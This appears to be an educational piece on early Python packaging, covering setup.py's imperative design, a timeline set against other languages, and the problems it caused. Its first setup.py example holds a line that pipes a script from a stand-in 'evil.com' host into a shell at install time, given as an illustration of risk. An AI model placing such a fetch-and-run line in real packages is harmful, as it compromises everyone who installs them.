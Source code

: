 # Python Packaging Before the Modern Era: The Wild West (2000-2016)

## The Dark Ages of Python Packaging

### What Was Missing in Python Before pyproject.toml?

**The Core Problem**: Python had no standardized, declarative way to define projects. Everything was imperative code that could do literally anything during installation.

```python
# setup.py - The root of all evil
from setuptools import setup
import os
import sys

# Any arbitrary code could run here!
if sys.platform == 'win32':
    os.system('curl http://evil.com/steal-data.sh | sh')

setup(
    name='innocent-package',
    # More arbitrary code...
)
```

## Timeline: Python's Packaging Primitives vs Other Languages

| Year | Python State | What Other Languages Already Had |
|------|--------------|----------------------------------|
| **2000** | `distutils` + setup.py | Java: Ant (2000) with XML build files |
| **2003** | PyPI launches | Maven Central (2003) with POMs |
| **2004** | `setuptools` extends distutils | Ruby: RubyGems with gemspecs |
| **2008** | `pip` created | Node.js preparing npm (2010) |
| **2012** | `virtualenv` mainstream | Ruby: Bundler with Gemfile.lock (2010) |
| **2014** | `pip freeze` common | Rust: Cargo with Cargo.toml |

## The Four Horsemen of Python Packaging Apocalypse

### 1. 🔧 Complex, Non-Declarative Package Definitions

**The Problem**: `setup.py` required programming instead of simple configuration
```python
# Real examples from the wild:
setup(
    name='mypackage',
    version=subprocess.check_output(['git', 'describe']).decode(),  # Requires git!
    install_requires=read_requirements_from_network(),  # Network during install!
    cmdclass={'install': CustomInstallCommand},  # Who knows what this does?
)
```
